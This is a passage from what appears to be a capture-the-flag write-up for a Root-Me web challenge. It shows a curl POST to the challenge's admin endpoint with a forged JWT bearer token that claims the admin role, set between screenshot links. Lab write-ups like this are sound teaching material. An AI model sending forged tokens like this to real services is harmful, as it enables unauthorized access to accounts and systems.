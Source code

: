 <img width="1186" alt="image" src="https://user-images.githubusercontent.com/89765480/202841252-b6a0668b-2389-4648-a4a3-38693471661c.png">

### 8. Send Post request with auth header

```bash 
curl --location --request POST 'http://challenge01.root-me.org/web-serveur/ch59/admin' \
--header 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJyb2xlIjoiYWRtaW4ifQ.y9GHxQbH70x_S8F_VPAjra_S-nQ9MsRnuvwWFGoIyKXKk8xCcMpYljN190KcV1qV6qLFTNrvg4Gwyv29OCjAWA'
```

<img width="1036" alt="image" src="https://user-images.githubusercontent.com/89765480/202841357-42a3a62e-cc01-4520-8621-4243f153098d.png">
